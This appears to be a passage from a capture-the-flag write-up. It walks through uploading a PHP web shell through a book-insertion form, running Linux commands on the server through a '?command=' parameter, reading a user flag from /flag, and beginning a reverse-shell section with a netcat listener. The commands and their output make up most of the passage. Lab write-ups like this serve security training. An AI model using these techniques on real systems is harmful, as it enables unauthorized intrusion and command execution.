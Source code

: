After submit it, web will giving response `Book inserted successfully!`. but where this file is uploaded? as we remember the port `80` website shown some of table data, and yes we can know where the file is located from there by clicking on `View Details` first and on broken picture try to click right-click on it and choice `Open image in new tab`. We will see page with content like below
```
Warning: system(): Cannot execute a blank command in /var/www/html/administrator/uploads/e77a53f1b6b4aba6d1fc86e42767ce4c.php on line 1
```
Since server is linux based, now we can execute linux command in server with adding `?command=<linux-command>`. for example `?command=ls -lah` and we will get
```
total 16K
drwxrwxrwx 1 www-data www-data 4.0K Mar  7 15:32 .
drwxrwxr-x 1 root     root     4.0K Feb 27 14:40 ..
-rw-r--r-- 1 www-data www-data   34 Mar  7 15:32 e77a53f1b6b4aba6d1fc86e42767ce4c.php
-rwxrwxrwx 1 www-data www-data    0 Feb 27 14:40 index.php
```

### Read User Flag
The flag is located in `/flag` and we can see the file by using command `ls -lah /flag` and we will get response
```
total 20K
drwxr-xr-x 1 root root 4.0K Feb 27 14:44 .
drwxr-xr-x 1 root root 4.0K Feb 27 14:46 ..
---------- 1 root root   40 Feb 27 14:40 root.txt
-rw-rw-r-- 1 root root   40 Feb 27 14:40 user.txt
```
read user.txt with `cat /flag/user.txt`

#### FLAG USER: USER{32250170a0dca92d53ec9624f336ca24}

We will not able to read root flag since it has permission
```
---------- 1 root root   40 Feb 27 14:40 root.txt
```

# Post-Exploitation
### Reverse Shell
A reverse shell is a shell that is running on one computer but accepts requests and relays the responses to another computer. So it acts on behalf of another computer remotely. There are various tools for conduct reverse shell, but the most commonly used currently is `nc`.

#### Install Netcat
```
sudo apt install nc -y
```

#### Basic usage of netcat
We will use flags `-l` and `-p` to do listening port
```
nc -lp 1337
```
